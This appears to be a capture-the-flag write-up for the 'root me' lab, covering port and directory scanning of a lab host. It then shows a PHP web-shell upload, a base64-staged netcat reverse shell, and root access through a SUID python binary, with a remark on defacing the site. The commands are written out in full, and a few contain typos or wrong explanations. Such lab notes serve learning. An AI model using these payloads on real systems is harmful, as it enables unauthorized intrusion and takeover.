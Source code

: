 # root me
- tool: gobuster
- web: cyberchef, revshell, gtfgobins

## task 1
- deploy
- ip = 10.10.1.253

## task 2
- scan the machine how many ports are the open? 2
  - ```nmap -sC -sV 10.10.1.253 -oN ip.log```
  - -sC vulnerabilty, -sV verbose, -oN outputNormal, ip.log nama_file
- What version of Apache is running? 2.4.29
- What service is running on port 22? ssh
- Find directories on the web server using the GoBuster too? /panel/
  - ```gobuster dir -u http://10.10.1.253/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```
    - gobuster =brute force URIs (directories and files), DNS subdomains, and virtual host name
    - dir = type directory
    - -u = destination url
    - -w = file worldlist

## task 3
- Getting a shell
  - open "http://10.10.1.253/panel" in browser
  - create some file php injection
    ```
    exmple PHP Injection Using eval() Function

    $myvar = "varname";
    $x = $_GET['arg'];
    eval("$myvar = $x;");
    ```
    ```<php echo system($_GET['c']); ?>``` in file sh.php5
  - open "http://10.10.1.253/uploads" and click sh.php5
  - add ```?c=ls``` in last url
- make revese shell
  - open cyberchef, revshell
    - revshell: add option ur ip ex: 10.10.1.1, and port 9001
    - copy Listener "nc -lvnp 9001" and paste in terminal
    - copy script: ncmkfifo 
    - open cyberchef: add to base64
    - paste script
    - copy script base64
  - and add url ```?c=echo script_base64_falkjfalkfgjalfa | base64 -d > shell.sh```
    ```
    ?c=chmod 777 shell.sh
    ?c=bash shell.sh
    ```
  - open terminal (dont forget paste listener before "bash shell.sh")
    - ```nc -lvnp 9001``` after that reverse connector is connect
    - $whoami
  - fiexd terminal
    - nampilin lokasi file, dan ubah variable terminal TERM menjadi xterm
    ```
    python3 -c "import pty; pty.spawn('/bin/bash')"
    export TERM=xterm
    ```
    - ctrl z
    ```
    stty raw -echo;fg;
            reset
    ```
  - find user.txt
    ```
    cd /var/www
    ls -la
    cat user.txt
    ```

## task 4
- Search for files with SUID permission, which file is weird?
  - use find
    ```
    find / -user root -perm /4000
    find / -perm /4000 2>dev/null
    find / -type f -name user.txt 2> /dev/null
    ```
    - find /usr/bin/python if have python u can use python in this terminal
  - find SUID in gtfobins
    - find: python SUID, and copy
    - ```python -c 'import os; os.execl("/bin/bash", "bash", "-p")'```
  - access root
    ```
    cd root
    ls -la
    cat root.txt
    ```
  - u can also change the website
    ```
    cd /var/www/html
    nano index.php
    systemctl restart apache2
    ```
